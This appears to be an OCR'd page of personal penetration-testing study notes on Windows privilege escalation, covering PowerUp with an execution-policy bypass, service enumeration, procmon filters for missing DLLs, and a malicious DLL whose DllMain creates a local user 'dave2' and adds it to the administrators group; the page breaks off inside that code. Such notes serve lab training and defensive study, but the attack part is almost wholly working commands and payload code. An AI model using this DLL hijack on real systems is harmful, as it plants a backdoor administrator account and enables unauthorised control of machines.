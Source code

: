 Find the same priv-esc vector using PowerUp:
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```


### Service DLL Hijacking

Exploit missing DLL, start by enumerating services:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# On non-RDP session:
sc.exe query
sc.exe qc <service>
Get-WmiObject Win32_Service | Select-Object Name, PathName
```

Check permission on the binary file of the service:
```powershell
icacls .\Documents\BetaServ.exe
```

Identify DLL's loaded by the binary:
- Can be done via Process Monitor (procmon) if Administrator
	- Restart service: `Restart-Service BetaService`
	- Filter: (Look for name not found on the DLL)
		- `Process Name is <executable>.exe then include`
		- `Operation is CreateFile then include`
		- `Path ends with .dll then include`
		- `Result is NAME NOT FOUND then include`
- File can be transfered to own system for inspection
```bash
# Start by transfering the exe and turning it into a service:
sc.exe create "Scheduler" binpath= "C:\Users\offsec\Desktop\Scheduler.exe"

# Now start the service and check in procmon
net start Scheduler
```

List PATH variable:
```powershell
$env:path
```

Create malicious DLL:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{

	switch ( ul_reason_for_call )
	{
		case DLL_PROCESS_ATTACH: // A process is loading the DLL.
		int i;
		i = system ("net user dave2 password123! /add");
		i = system ("net localgroup administrators dave2 /add");
		break;
		case DLL_THREAD_ATTACH: // A process is creating a new thread.
```